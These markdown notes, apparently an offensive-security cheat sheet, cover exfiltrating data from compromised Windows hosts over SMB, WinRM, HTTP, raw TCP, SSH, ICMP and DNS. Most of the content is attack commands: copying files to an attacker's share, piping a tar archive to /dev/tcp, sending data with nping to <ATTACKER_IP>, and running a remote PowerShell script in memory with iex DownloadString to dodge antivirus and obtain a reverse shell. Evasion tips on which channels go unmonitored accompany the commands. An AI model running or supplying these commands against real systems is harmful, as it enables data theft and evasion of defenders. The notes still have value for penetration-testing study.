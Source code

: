 ```yaml
---
title: Windows data exfiltrator notes
---
```


- [1. Simple file transfer](#1-simple-file-transfer)
  - [1.1. SMB (two ways)](#11-smb-two-ways)
  - [1.2. Evil-WinRM (two ways)](#12-evil-winrm-two-ways)
  - [1.3. HTTP (attacker -\> victim)](#13-http-attacker---victim)
- [2. TCP socket](#2-tcp-socket)
- [3. SSH protocol](#3-ssh-protocol)
- [4. HTTP(S) protocol](#4-https-protocol)
- [5. ICMP](#5-icmp)
- [6. DNS](#6-dns)

## 1. Simple file transfer

[Great post about Windows file transfers for hackers](https://juggernaut-sec.com/windows-file-transfers-for-hackers/).

### 1.1. SMB (two ways)
Using local SMB server (running on the attacker's OS) an attacker is able transfer files in both ways:

```bash
# Run SMB server
impacket-smbserver -smb2support -username <username> -password <password> <share-name> <share-path>
```

```powershell
# Transfer file from the victim to the attacker
copy <local-file> \\<attacker-ip>\<share>\

# Transfer file from the attacker to the victim
copy \\<attacker-ip>\<share>\<file> <local-path>
```

### 1.2. Evil-WinRM (two ways)
The `evil-winrm` tool is able to perform file transfer out of the box if only session is established.

```bash
> download <file>
> send <file>
```

### 1.3. HTTP (attacker -> victim)
Attacker:

```bash
python -m http.server <PORT>
```

Victim:

```powershell
# Download and save
Invoke-WebRequest <URL> -OutFile <FILE>
```

There's a method to download a PS script and run it without touching the disk (directly from memory). It's used to avoid antiviruses and so on. It can be used to get a reverse-shell connection ([reverse shell Powershell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)).

```powershell
iex (New-Object Net.WebClient).DownloadString("<URL_TO_SCRIPT.ps1>")
```

## 2. TCP socket
This kind of exfiltration is not recommended in a well-secured environments. Non-standard TCP protocol can be detected easily.

Listener (attacker):

```bash
# Receive data and save to file
nc -lvnp <PORT> > /path/to/file

# Decode and decompress data
dd conv=ascii if=<FILE> | base64 -d > file.tar
tar xvf file.tar
```

Sender (victim):

```bash
# Send compressed and encoded data
tar zcf - <DIR> | base64 | dd conv=ebcdic > /dev/tcp/<IP>/<PORT>
```

## 3. SSH protocol
SSH establishes a secure channel because all transmitted data is encrypted. It's not possible to sniff the unencrypted content.

Sender (victim):

```bash
# Send a file via ssh
tar cf - <DIR> | ssh <HOST> "cd /tmp/; tar xpf -"
```

## 4. HTTP(S) protocol
Exfiltration data through the HTTP protocol is one of the best options because it is hard to distinguish between legitimate and malicious HTTP traffic. Additionally, a POST request data is not stored in log files, cache or any other history.

## 5. ICMP
ICMP packet has optional `data` field where the sensitive data can be stored and transmitted.

Listener (attacker): `Metasploit` framework has built-in module to capture malicious ICMP sequence.

```bash
> use auxiliary/server/icmp_exfil
# Omit outgoing ICMP packets
> set BPF_FILTER icmp and not src <ATTACKER_IP>
> set INTERFACE eth0
> run
```

Sender (victim): we can use the `nping` tool which part of the Nmap package. The ICMP data sequence for the Nmap listener is initialized sending the `BOF<filename>` string.

```bash
# Initialize the ICMP sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "BOFfile.txt"
# Send data
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "<DATA>"
# End of the sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "EOF"
```

## 6. DNS
DNS is not a transport protocol and it's basis of the entire internet so it's not usually monitored. Fully Qualified Domain Name (FQDN) can be at most 255 characters long (including `.` separators). The subdomain part must not exceed 63 characters. The trick is to transfer data using the subdomain part to the controlled (malicious) DNS server.

On the malicious DNS server capture any incoming UDP/53 packet:

```bash
tcpdump -i eth0 udp port 53 -v
```
